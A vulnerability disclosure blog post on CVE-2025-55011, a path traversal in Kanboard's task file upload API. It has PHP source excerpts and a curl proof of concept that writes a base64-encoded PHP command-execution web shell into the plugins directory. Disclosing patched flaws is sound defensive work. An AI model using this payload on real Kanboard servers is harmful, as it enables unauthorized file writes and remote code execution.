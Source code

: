 ```yaml
---
layout: post
title: "Kanboard CVE-2025-55011"
category: cve
tags: [kanboard, cve-2025-55011, security]
cvss_score: 6.4
cvss_vector: "CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:L/A:N"
---
```


<style>
pre {
  margin-top: 1.5em;   /* space above */
  margin-bottom: 1.5em !important; /* space below */
}
</style>

## Path Traversal in Task File Upload API Leads To Arbitrary File Write
{% if page.cvss_score %}
  {% include cvss.html score=page.cvss_score vector=page.cvss_vector %}
{% endif %}

File upload vulnerabilities are often a great way to exploit an app. A couple clicks of a button and... BOOM! The server is now yours.  That's why I always make it a priority to check how files are sanitized when uploaded to an app.

When examining Kanboard's file-related protections, I noticed that a lot of work had been done on `read` protecting key files from path traversal, particularly by this method in `FileStorage.php`.

```php
/**
 * Fetch object contents
 *
 * @access public
 * @throws ObjectStorageException
 * @param  string  $key
 * @return string
 */
public function get($key)
{
    return file_get_contents($this->getRealFilePath($key));
}


private function getRealFilePath($key)
{
    $realFilePath = realpath($this->baseDir.DIRECTORY_SEPARATOR.$key);

    if ($realFilePath === false) {
        throw new ObjectStorageException('Invalid path: '.$key);
    }

    if (strpos($realFilePath, $this->baseDir) !== 0) {
        throw new ObjectStorageException('File is not in base directory: '.$realFilePath);
    }

    if (! file_exists($realFilePath)) {
        throw new ObjectStorageException('File not found: '.$realFilePath);
    }

    return $realFilePath;
}
```

However, I soon notice that on the `write` side of things (aka file upload), similar restrictions were not in place.

```php
/**
 * Save object
 *
 * @access public
 * @throws ObjectStorageException
 * @param  string  $key
 * @param  string  $blob
 */
public function put($key, &$blob)
{
    $this->createFolder($key);

    if (file_put_contents($this->baseDir.DIRECTORY_SEPARATOR.$key, $blob) === false) {
        throw new ObjectStorageException('Unable to write the file: '.$this->baseDir.DIRECTORY_SEPARATOR.$key);
    }
}
```

With this in mind, I decided to see if there were any places within the app where path traversal would be possible when writing a file. I then came across the following in `TaskFileProcedure.php`. 

```php
 public function createTaskFile($project_id, $task_id, $filename, $blob) 
 { 
     ProjectAuthorization::getInstance($this->container)->check($this->getClassName(), 'createTaskFile', $project_id); 
  
     try { 
         return $this->taskFileModel->uploadContent($task_id, $filename, $blob); 
     } catch (ObjectStorageException $e) { 
         $this->logger->error(__METHOD__.': '.$e->getMessage()); 
         return false; 
     } 
 } 
```
As can be seen, the method takes in a `project_id`, `task_id`, `filename`, and a `blob`. Note that the `project_id` appears to be validated in the first line, but the other params are not.

Going further down the method chain into `FileModel.php`, we can see how the file path is generated for a file about to be written.

```
/**
 * Generate the path for a new filename
 *
 * @access public
 * @param  integer   $id            Foreign key
 * @param  string    $filename      Filename
 * @return string
 */
public function generatePath($id, $filename)
{
    return $this->getPathPrefix().DIRECTORY_SEPARATOR.$id.DIRECTORY_SEPARATOR.hash('sha1', $filename.time());
}
```

Note that we cannot influence the final file name, as the file name we supply will be `SHA-1` hashed with the current timestamp.  However, we do control the `id` field via `task_id`, and from what we saw before, this means that we have full control over the directory we want to place the file in! All we have to do is use a payload like:

```
"project_id": 1,
"task_id": "../../../plugins",
"filename": "shell.php",
"blob": "PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWydjbWQnXSk7ID8+"
```

Since the app by default blocks execution of all files in the `/data` directory, we can use this path traversal to our advantage and escape the data directory to hopefully trigger execution.

### Exploiting

Assuming the base installation of Kanboard via docker, the following folders will be writable. Fortunately with the default container settings these are relatively low-risk.

```
/run/nginx
/var/lib/nginx
/var/lib/nginx/tmp
/var/lib/nginx/tmp/fastcgi
/var/lib/nginx/tmp/client_body
/var/lib/nginx/tmp/uwsgi
/var/lib/nginx/tmp/scgi
/var/lib/nginx/tmp/proxy
/var/log/nginx
/var/www/app/plugins
/var/www/app/data
/var/www/app/data/cache
/var/www/app/data/files
/var/www/app/data/files/tasks
/var/www/app/data/files/tasks/1
/proc/acpi
/proc/asound
/tmp
/dev/mqueue
/dev/shm
/var/tmp
/sys/firmware
```

However on a manual installation outside of the docker setup, this exploit could be much riskier. If a user denies all execution in the data directory but allows it from anywhere else, an attacker could write a reverse shell to plugins and immediately gain remote code execution and greatly increase the severity.

### PoC
Running Kanboard 1.2.46 inside docker on locahost:3000.

1. After creating a project, make the following curl requst:

    ```
    curl -X POST http://localhost:3000/jsonrpc.php \
    -u admin:admin \
    -H "Content-Type: application/json" \
    -d '{
    "jsonrpc": "2.0",
    "method": "createTaskFile",
    "id": 1,
    "params": {
      "project_id": 1,
      "task_id": "../../../plugins",
      "filename": "shell.php",
      "blob": "PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWydjbWQnXSk7ID8+"
    }
    }'
    ```
2. In the docker container notice that a file has been created in the /plugins directory with a php reverse shell as it's contents (fortunately it's not executable in the docker setup, but could be on user installations).

    <figure style="text-align: center; margin: 2em 0;">
      <img src="/assets/img/kanboard/file_created.png" alt="Password Reset" style="display: block; margin-left: auto; margin-right: auto; max-width: 90%; border-radius: 8px;">
    </figure>


### Final Thoughts
Developers are always paranoid about arbitrary file read, but often times file write can be just as deadly. What's more, even if obvious parameters like `filename` are sanitized, if other parameters are used in the path (like `task_id`) path traversal can still be possible.

Note that this has been patched and a security advisory has been published here: [GHSA-26f4-rx96-xc55 advisory](https://github.com/kanboard/kanboard/security/advisories/GHSA-26f4-rx96-xc55)
 
